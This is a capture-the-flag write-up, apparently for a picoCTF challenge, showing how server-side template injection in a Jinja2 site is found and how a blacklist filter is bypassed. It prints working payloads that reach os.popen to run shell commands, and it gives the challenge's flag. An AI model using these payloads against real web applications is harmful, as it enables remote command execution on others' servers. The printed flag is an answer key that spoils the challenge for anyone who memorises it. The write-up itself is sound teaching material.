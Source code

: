# Overview
Website where you can announce whatever you want!  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/922068b0-da07-44fc-8dea-1b1c0d59735b" />  

**Hint 1:** Server Side Template Injection  
**Hint 2:** Why is blacklisting characters a bad idea to sanitize input?  
  
It can be seen that the web will reflect back what we enter into the box  
=> Normally we will immediately think of SSTI vulnerabilities  
  
# Writeup
**B1:** Recon  
I'll try entering `{{7*'7'}}` into the box and see what the web returns  
=> web page returns the string 7777777  
=> We can immediately guess that this is python's Jinja2 templates  
**B2:** Now we will enter: `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` to see what the web returns  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/c72c9acc-f60c-419d-97de-b46a3f16b658" />  
It seems like some characters have been filtered  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/3cdab2ce-0959-4b94-9154-141255f27fe3" />  
Filtering with a blacklist like this is actually quite risky  
=> We can encode characters to hex and then use request dynamic attribute access in Jinja2  
Now we wil enter `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/93ea84df-579e-4302-a007-3460b85da70e" />  
Web has actually executed our `Id` statement  
**B3:** Exploit  
Now we will find where the flag is using `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -l')|attr('read')()}}`  
<img width="500" height="350" alt="image" src="https://github.com/user-attachments/assets/132c8812-2130-45f8-b945-260d3577f7a4" />  
=> Use `cat flag` to read  

Flag will be returned   
picoCTF{sst1_f1lt3r_byp4ss_a9824e27}  


